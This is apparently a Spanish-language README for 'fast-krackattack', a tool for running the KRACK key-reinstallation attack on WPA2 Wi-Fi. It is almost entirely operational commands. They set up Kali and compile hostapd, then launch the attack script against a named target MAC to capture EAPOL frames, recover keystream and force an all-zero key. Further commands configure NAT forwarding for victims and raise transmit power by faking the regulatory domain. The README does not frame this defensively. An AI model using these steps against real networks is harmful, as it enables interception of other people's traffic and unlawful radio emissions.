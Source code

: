 # fast-krackattack
Basado en el ataque de Krackattacks de Vanhoef y Piessens, se realizó mejora en velocidad y estabilidad del ataque
La forma probada de realizar el ataque de krackattacks de forma estable, rápida y exitosa es corriendo en kali linux.2 (2019), arrancando en modo USB y sin conexión a internet.

Una vez que ha cargado en modo live, se instalas las siguientes dependencias:

apt-get install libnl-3-dev libnl-genl-3-dev pkg-config libssl-dev net-tools git sysfsutils python-scapy python-pycryptodome

Nota: Cabe indicar que la instalación de las dependencias no debe superar los 9 MB, si es superior el tamaño de la instalación debe iniciar de nuevo el proceso.

Al realizar con éxito la instalación de las dependencias se configura los siguientes archivos:

enable_internet_forwarding y hostapd.conf

La configuración requiere ingresar los nombres de las interfaces inalámbricas reconocidas en kali linux.

Por último nos dirigimos a la carpeta hostapd y compilamos:

 cd hostapd
  cp defconfig .config
  make -j 2
  
<Para realizar el ataque desactivamos el administrador de red con el siguiente comando:

service Networkmanager stop

Procedemos a escribir el script del ataque, por ejemplo:

./krack-all-zero-tk wlan2 wlan1 HackAdvanced -t a4:93:3f:62:37:7b -d

Con este ataque podemos visualizar con wireshark como las tramas eapol van trabajando hasta tener los mensajes 4 cifrados y sin cifrar y obtener el keystream. Se recomienda activar todas las interfaces de wireshark.

También sirve para la instalación de clave todo en cero.

Para la configuración de las tablas de ruteo para salida del internet se escribe el siguiente script:

iptables -F
iptables -t nat -F
iptables -A FORWARD -i wlan1 -o eth0 -j ACCEPT
iptables -t nat -A POSTROUTING -o eth0 -j MASQUEREDE

Para incrementar la potencia de las tajetas inalámbricas escribimos el siguiente script:

sudo iw reg set GY
sudo ip link set wlan1 down
sudo iw dev wlan1 set txpower fixed 30mBm
sudo ip link set wlan1 up
sudo iw dev



